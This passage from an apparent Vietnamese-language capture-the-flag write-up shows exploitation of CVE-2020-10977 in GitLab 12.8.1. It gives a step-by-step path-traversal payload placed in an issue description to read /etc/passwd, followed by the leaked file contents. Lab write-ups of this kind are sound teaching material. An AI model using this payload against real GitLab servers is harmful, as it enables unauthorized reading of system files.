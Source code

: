 Dự án thuộc sở hữu của Dexter McPherson với tên người dùng dexter có thể là một người dùng tiềm năng trên hộp

![6](https://coldfusionx.github.io/assets/img/Posts/Laboratory/owner.png)

## GitLab Version
Trang trợ giúp tiết lộ phiên bản của GitLab là GitLab Community Edition 12.8.1:

![7](https://coldfusionx.github.io/assets/img/Posts/Laboratory/version.png)

## Lỗ hổng bảo mật - CVE-2020-10977
Tìm kiếm các lỗ hổng liên quan đến GitLab 12.8.1, tác giả  bắt gặp `CVE-2020-10977` là một lỗ hổng đọc tệp tùy ý

## Shell as git
Có một Báo cáo [HackerOne](https://hackerone.com/reports/827052) mà chúng ta sẽ tham khảo để khai thác lỗ hổng này

## LFI
Bước 1: Đầu tiên, tác giả tạo hai dự án

![8](https://coldfusionx.github.io/assets/img/Posts/Laboratory/s1.png)

Bước 2: Tiếp theo, chúng ta đi đến dự án lạnh tạo sự cố với tải trọng LFI trong phần mô tả:

```powershell
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
```

![9](https://coldfusionx.github.io/assets/img/Posts/Laboratory/s2.png)

Bước 3: Sau khi gửi vấn đề, hãy sử dụng tùy chọn Di chuyển nằm ở phía dưới bên phải và chọn kết hợp dự án:

![10](https://coldfusionx.github.io/assets/img/Posts/Laboratory/s3.png)

Bước 4: Tác giả sẽ tìm thấy tệp được liên kết với vấn đề thứ hai của dự án

![11](https://coldfusionx.github.io/assets/img/Posts/Laboratory/s4.png)

Nhấp vào nó sẽ tải xuống tệp

```powershell
cfx:  ~/Documents/htb/laboratory
→ cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
[..SNIP..]
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh -
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh -
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh -
```
